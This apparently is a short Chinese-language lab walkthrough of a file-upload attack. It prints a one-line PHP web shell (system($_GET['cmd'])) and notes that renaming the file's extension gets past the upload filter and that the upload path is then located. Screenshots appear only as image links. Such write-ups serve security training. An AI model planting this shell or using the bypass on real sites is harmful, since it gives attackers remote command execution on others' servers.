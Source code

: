 - 创建一个运行命令行的PHP脚本,sql.php

    `  <?php system($_GET['cmd']);?> `
- 上传.php文件失败

    ![](image/add_file.png)
    
    ![](image/fail.png)

- 修改后缀名后上传成功

    ![](image/upload.png)

- 确定上传脚本的位置，以便访问

    ![](image/position.png)
